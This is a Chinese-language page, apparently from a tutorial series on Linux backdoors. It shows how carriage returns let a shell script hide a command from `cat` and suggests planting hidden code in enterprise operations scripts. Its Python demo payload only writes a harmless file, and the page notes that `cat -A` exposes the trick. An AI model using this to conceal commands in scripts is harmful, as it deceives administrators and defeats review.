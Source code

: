 # hiding-from-cats

> 原文：[http://book.iwonder.run/安全技术/Linux 后门/8.html](http://book.iwonder.run/安全技术/Linux 后门/8.html)

**cat 隐藏说明**

刚刚在 cron 里面提到了 cat 的一个缺陷。可以利用这个缺陷隐藏恶意命令在一些脚本中。这里的示例我就用 hiding-from-cats 里的例子吧。之所以单列出来，个人认为在一些大型企业的运维工具脚本中可以插入恶意代码，利用 cat 的缺陷还可以使管理员无法发现脚本被做手脚。

cat 其实默认使用是支持一些比如\r 回车符 \n 换行符 \f 换页符、也就是这些符号导致的能够隐藏命令。

使用 python 生成带有换行符的内容 sh：

```
cmd_h = "echo 'You forgot to check `cat -A`!' > oops" # hidden
cmd_v = "echo 'Hello world!'"                         # visible

with open("test.sh", "w") as f:
output = "#!/bin/sh\n"
output += cmd_h + ";" + cmd_v + " #\r" + cmd_v + " " * (len(cmd_h) + 3) + "\n"
f.write(output) 
```

![image](img/f23d56c4a9633ad509f992b7fb863693.png)

使用 coderunner 生成了一个 test.sh 脚本。cat 看了下脚本的内容是 echo 一个 hello world! 且同目录下只有他本文件。然后我们用 sh test.sh 执行后。

![image](img/3740a40584cebb0bb860591c0395e3cf.png)

可以看到执行脚本后生成了一个 oops 文件，内容就是 You forgot to check cat -A! 其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat —A 查看 root 文件的话就可以看到计划任务的真正内容了。

